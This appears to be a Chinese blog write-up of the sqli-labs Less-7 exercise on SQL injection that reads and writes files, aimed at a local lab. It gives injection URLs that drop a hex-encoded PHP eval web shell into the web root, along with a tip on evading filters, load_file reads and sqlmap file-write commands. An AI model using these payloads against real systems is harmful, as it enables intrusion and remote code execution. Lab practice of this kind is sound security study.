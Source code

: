 ```yaml
---
 title: Sqlilabs通关笔记(7)读写注入
 date: 2020-01-04 09:34:26
 tags: SQL注入
 categories:
---
```



## 第七关 基于文件写入注入
![2020-1-5-8-11-29](https://raw.githubusercontent.com/bbkali/picbad/master/2020-1-5-8-11-29)

### 存在注入点判断
1. 任意输入单引号，会显示报错
2. 正常运行提示 Use outfile...... 所以理解为写入mm文件执行
3. 通过尝试发现闭合'))，通过查看源代码，再次确定闭合成功

    ```
        $sql="SELECT * FROM users WHERE id=(('$id')) LIMIT 0,1";
    $result=mysql_query($sql);
    $row = mysql_fetch_array($result);

        if($row)
        {
        echo '<font color= "#FFFF00">';	
        echo 'You are in.... Use outfile......';
        echo "<br>";
        echo "</font>";
        }
        else 
        {
        echo '<font color= "#FFFF00">';
        echo 'You have an error in your SQL syntax';
        //print_r(mysql_error());
        echo "</font>";  
        }
    }
        else { echo "Please input the ID as parameter with numeric value";}

    ```
<!--more-->
### 写入文件配置（使用条件）

**secure-file-priv**
    - 如果文件导入不成功,确认Mysql配置文件my.ini下存在secure-file-priv
    - secure-file-priv参数是用来限制LOAD DATA, SELECT … OUTFILE, and LOAD_FILE()传到哪个指定目录的

* secure_file_priv的值为null ，表示限制mysqld不允许导入|导出
* secure_file_priv的值为/tmp/ ，表示限制mysqld的导入|导出只能发生在/tmp/目录下
* secure_file_priv的值没有具体值时，表示不对mysqld的导入|导出做限制

mysql使用以下命令查看是否打开文件写入开关
> show global variables like '%secure%'

![2020-1-5-9-9-4](https://raw.githubusercontent.com/bbkali/picbad/master/2020-1-5-9-9-4)

修改my.ini添加secure-file-priv参数,没有填具体值表示不做限制(这样做其实很危险)
![2020-1-5-9-9-20](https://raw.githubusercontent.com/bbkali/picbad/master/2020-1-5-9-9-20)

重启mysql即可

### 写入敏感文件

写入一句话木马
> http://127.0.0.1/sqlilabs2/Less-7/index.php?id=-1')) union select 1,0x3c3f706870206576616c28245f504f53545b636d645d293b3f3e,3 into outfile "E:\\softs\\phpstudy_pro\\WWW\\sqlilabs2\\Less-7\\mm2.php"--+

写入phpinfo
> http://127.0.0.1/sqlilabs2/Less-7/index.php?id=1')) 1,0x3c3f70687020706870696e666f28293b3f3e,3 into outfile "E:\\softs\\phpstudy_pro\\WWW\\sqlilabs2\\Less-7\\pp2.php--+

**写入需要注意的**
* 写入的内容需要用hex转码，以防拦截
* 写入的前提需要知道物理文件路径
* 写入的前提是有权限写入，或者有配置写入的权限

**可以在文件目录查看发现文件写入成功**

![2020-1-5-9-9-49](https://raw.githubusercontent.com/bbkali/picbad/master/2020-1-5-9-9-49)

**同时网页可以直接访问该文件并执行**

![2020-1-5-9-10-10](https://raw.githubusercontent.com/bbkali/picbad/master/2020-1-5-9-10-10)


### 读取敏感文件
- **前提要有页面输出哦！**
> http://127.0.0.1/sqlilabs2/Less-3/index.php?id=-1') union select 1,load_file('e:\\mm.php'),3--+



### SQLMQP 读写文件

**文件读取**

> sqlmap -u "http://127.0.0.1/sqlilabs2/Less-1/index.php?id=1" --file-read "E:\\mm.php"

**文件写入**
> sqlmap -u "http://127.0.0.1/sqlilabs2/Less-7/index.php?id=1" --file-write "/home/bb/1.txt" --file-dest "E:\\sql2.php" --batch